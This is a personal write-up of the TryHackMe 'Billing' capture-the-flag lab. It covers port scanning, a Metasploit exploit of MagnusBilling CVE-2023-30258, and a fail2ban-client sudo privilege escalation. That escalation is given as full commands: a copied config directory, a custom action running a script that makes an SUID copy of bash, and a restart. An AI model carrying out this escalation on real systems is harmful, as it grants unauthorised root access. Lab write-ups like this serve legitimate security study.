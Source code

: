 # Hack Log 5 - TryHackMe [Billing](https://tryhackme.com/room/billing)

📅 **Date:** 2025-06-02   
🔍 **Objective:** Obtain user and root flag.  
🎯 **Target:** TryHackMe Billing (Lab CTF)

---

## 🛠️ Actions Taken

- **Port & Service Enumeration**  
```
nmap -sV --script=http-enum 10.10.111.81
```
| Port | Service   |
|------|-----------|
| 22   | OpenSSH   |
| 80   | http      |
| 3036 | MySQL     |
| 5038 | Asterisk  |

→ Upon visiting http://10.10.111.81:80, found that Magnus Billing was running.  
→ It is an open-source VoIP billing platform designed to manage and automate billing for Asterisk-based telephony systems.  



- **Magnus Billing Remote Code Execution Discovery**  
→ Researched the web and found that Magnus Billing is vulnerable to remote code execution (CVE-2023-30258).  
→ There was an exploit entry present in Metasploit for the CVE.  

- **Exploitation**  
→ Executed the exploit and obtained a meterpreter shell as user "asterisk".   
→ Found user flag in "/home/magnus" directory.  

- **Privilege Escalation**  
→ Running "sudo -l" revealed that the user can run **file2ban-client** as sudo.  
→ Fail2ban is a security tool that monitors log files for suspicious activity and blocks IP addresses after repeated failed login attempts. It helps protect servers from brute-force attacks by automatically adding firewall rules.    
→ Upon researching discovered an approach to customize a config in the config directory of fail2ban and place code in it that is to be executed with root permissions. (https://juggernaut-sec.com/fail2ban-lpe/).  
→ Wasn't able to customize the config because the current user only had read-access to "/etc/fail2ban".  
→ Alternatively, found the way to copy the configuration directory to different location and then refer to the newly copied configuration directory.  
     - Copying the configuration directory.  
      ```
      rsync -av /etc/fail2ban/ /tmp/fail2ban/  
      ```  
      
     - Referring to the newly copied configuration directory.  
      ```
      sudo fail2ban-client -c /tmp/fail2ban -v restart
      ```  
→ Referring to the approach mentioned above wrote my own config which executes a script. which copies "/bin/bash" to "/tmp/bash" and turns it into SUID binary.  
     - Creating script /tmp/script  
    ``` 
    #!/bin/sh  
    cp /bin/bash /tmp/bash  
    chmod 755 /tmp/bash  
    chmod u+s /tmp/bash  
    ```  
     - Making the script executable  
    ```
    chmod +x /tmp/script  
    ```  
     - Creating a custom Fail2Ban action file named "custom-start-command.conf"    
    ```  
    cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF  
    [Definition]  
    actionstart = /tmp/script  
    EOF    
    ```  
     - Appending a new custom jail configuration to the "jail.local" file in "/tmp/fail2ban" directory.    
    ```  
    cat >> /tmp/fail2ban/jail.local <<EOF
    [my-custom-jail]
    enabled = true
    action = custom-start-command
    EOF  
    ```  
     - Creating a custom Fail2Ban filter file with no actual filtering logic inside.  
    ```  
    cat > /tmp/fail2ban/filter.d/my-custom-jail.conf <<EOF  
    [Definition]  
    EOF  
    ```  
     - Restarting fail2ban using the custom configuration directory.  
    ```  
    sudo fail2ban-client -c /tmp/fail2ban/ -v restart  
    ```  
  → Succesfully obtained the root shell and subsequently the root flag.  


## 🔍 Key Findings  

- CVE-2023-30258, Magnus Billing Remote Code Execution.  
- Sudo using fail2ban-client.  


## 📚 What I Learned  

- CVE-2023-30258 is a critical command injection vulnerability affecting MagnusBilling versions 6.x and 7.x.  
- This flaw allows unauthenticated remote attackers to execute arbitrary operating system commands via specially crafted HTTP requests.  
- Using fail2ban for privilege escalation.  
  - Following resources were very helpful.
    - https://0xb0b.gitbook.io/writeups/tryhackme/2025/billing
    - https://juggernaut-sec.com/fail2ban-lpe/
    
      
    
 




